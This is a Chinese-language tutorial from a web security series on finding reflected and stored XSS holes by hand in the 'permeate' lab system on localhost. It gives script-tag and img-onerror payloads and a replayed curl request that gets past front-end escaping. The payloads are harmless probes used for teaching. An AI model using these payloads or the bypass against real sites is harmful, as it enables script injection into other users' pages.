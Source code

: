 # 前言

在前些章节 [（web 安全系列（一）：XSS 攻击基础及原理）](https://yq.aliyun.com/articles/638829?spm=a2c4e.11155435.0.0.59893312yiELAF)以及[（Web 安全系列（二）：XSS 攻击进阶（初探 XSS Payload））](https://yq.aliyun.com/articles/638935?spm=a2c4e.11155435.0.0.6d253312lHXJ4V)中，我详细介绍了 XSS 形成的原理以及 XSS 攻击的分类，并且编写了一个小栗子来展示出 `XSS Payload` 的危害。

目前来说，XSS 的漏洞类型主要分为三类：反射型、存储型、DOM 型，在本篇文章当中会以`permeate`生态测试系统为例，分析网站功能，引导攻击思路，帮助读者能够快速找出网站可能存在的漏洞。

# 反射型 XSS 挖掘

现在笔者需要进行手工 XSS 漏洞挖掘，在手工挖掘之前笔者需要先逛逛网站有哪些功能点，如下图是`permeate`的界面

![下载](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/%E4%B8%8B%E8%BD%BD.png?raw=true)

## 思路分析

我们知道反射型 XSS ，大多是通过 URL 传播的，那么我就需要思考哪些地方会出现让 URL 地址的参数在页面中显示，我相信大部分读者脑中第一直觉就是搜索栏，尤其是一些大型网站的站内搜索，搜索的关键词会展示在当前的页面中。例如某搜索引擎：

![image-20180917170314833](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917170314833.png?raw=true)

而在我们测试的首页也有网站搜索功能，因此我们可以从搜索功能着手测试，尝试是否可以进行 XSS Payload，我们先输入一个简单的 Payload 进行测试，测试代码为`<img onerror="alert(1)" src=1 />`

当我们点击搜索按钮时，URL 应当自动改变为 `http://localhost:8888/home/search.php?keywords=<img onerror="alert(1)" src=1 />`

## 操作过程

我们进行尝试：

先输入搜索内容

![image-20180917170907957](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917170907957.png?raw=true)

再进行搜索

![image-20180917171035872](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917171035872.png?raw=true)

我们发现，Google Chrome 居然直接阻止了该事件，Payload 也没有进行触发，这里我就需要跟读者说一下了，Chrome 浏览器的内核自带 XSS 筛选器，对于反射型 XSS 会自动进行拦截，所以尽量不要用 Chrome 进行测试，我们改用火狐继续进行测试：

![image-20180917171414387](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917171414387.png?raw=true)

果然，直接触发了我们的 Payload 。

## 结果分析

此 Payload 被触发，说明我们找到了一个反射型 XSS 的漏洞，当然，这种漏洞非常初级，绝大部分网站都进行了过滤操作，再加上随着浏览器功能越来越强大，浏览器自带的 XSS 筛选器变得更加智能，这种漏洞会越来越少见，下面我将会测试更为常见的存储型 XSS 的挖掘与并介绍如何绕过。

# 存储型 XSS 挖掘

## 思路分析

存储型 XSS 的攻击代码是存在服务器端，因此，我们需要找到该网站将数据存储到后端的功能，我们对此网站有了一定了解，会发现 `permeate` 拥有发帖和回帖功能，这正是 Web 端和后台进行沟通的渠道，所有帖子信息都会存在服务端，有了这些信息，我们可以进入板块，进行发帖操作：

![image-20180917172547131](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917172547131.png?raw=true)

进入发帖界面：

![image-20180917172646510](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917172646510.png?raw=true)

## 检测漏洞

我们现在标题和内容里填上初级的 Payload ：`123<script>alert('123')</script>`

![image-20180917202811060](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917202811060.png?raw=true)

我们进行发表操作：

![image-20180917202825918](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917202825918.png?raw=true)

页面直接执行了我们的 Payload，我们点完确定，查看列表：

![image-20180917202841327](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917202841327.png?raw=true)

我们进入帖子内部，会发现如下场景：

![image-20180917203220506](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917203220506.png?raw=true)

很明显，文章主体部分的 Payload 并没有执行，这到底是怎么一回事呢？

## 抓包

为什么标题内容可以 Payload，主体内容不能 Payload 呢，我们打开控制台，切到`Network` 再来发一篇帖子看看：

![image-20180917203838605](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917203838605.png?raw=true)

我们可以看到对应的内容已经经过转义，转义分为两种，前端转义和后端转义，如果是后端转义通常我们就不需要测试下去了，因为我们不知道服务端的内部代码，如果是前端转义则可以绕过这个限制。

那么该如何操作呢？

![image-20180917204208148](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917204208148.png?raw=true)

我们拷贝出 URL

`curl 'http://localhost:8888/home/_fatie.php?bk=5&zt=0' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Origin: http://localhost:8888' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Referer: http://localhost:8888/home/fatie.php?bk=5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: zh-CN,zh;q=0.9,en;q=0.8' -H 'Cookie: PHPSESSID=7690435026da386df8a80e63f3da2089' --data 'csrf_token=9191&bk=5&title=123%3Cscript%3Econsole.log%28232%29%3C%2Fscript%3E&content=%3Cp%3E123%26lt%3Bscript%26gt%3Bconsole.log%28232%29%26lt%3B%2Fscript%26gt%3B%3C%2Fp%3E' --compressed`

找到其中的 title 和 content，将 content 的内容替换为 title 的内容：

`curl 'http://localhost:8888/home/_fatie.php?bk=5&zt=0' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Origin: http://localhost:8888' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Referer: http://localhost:8888/home/fatie.php?bk=5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: zh-CN,zh;q=0.9,en;q=0.8' -H 'Cookie: PHPSESSID=7690435026da386df8a80e63f3da2089' --data 'csrf_token=9191&bk=5&title=123%3Cscript%3Econsole.log%28232%29%3C%2Fscript%3E&content=123%3Cscript%3Econsole.log%28232%29%3C%2Fscript%3E' --compressed`

替换完成之后，将此内容复制到终端进行运行：

![image-20180917205741958](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917205741958.png?raw=true)

回到主页面查看相关内容：

![image-20180917205958914](https://github.com/yinLiangDream/md/blob/master/Web%E5%AE%89%E5%85%A8%E7%B3%BB%E5%88%97%EF%BC%88%E4%B8%89%EF%BC%89%EF%BC%9AXSS%20%E6%94%BB%E5%87%BB%E8%BF%9B%E9%98%B6%EF%BC%88%E6%8C%96%E6%8E%98%E6%BC%8F%E6%B4%9E%EF%BC%89.assets/image-20180917205958914.png?raw=true)

Payload 执行了两次，内容也被攻击了。

## 结果分析

看到此处说明我们已经成功绕过前端 XSS 过滤器，直接对内容进行修改，所以后端的转义有时候也很有必要。

# 总结

挖掘漏洞是一个复杂的过程，手工挖掘不失为一种可靠的方式，但是手动挖掘效率低下，有时还要看运气，目前已经出现很多自动检测 XSS 漏洞的工具以及平台，大大提高发现漏洞的效率，我将在稍后的章节中介绍一些工具以及如何防御 XSS。
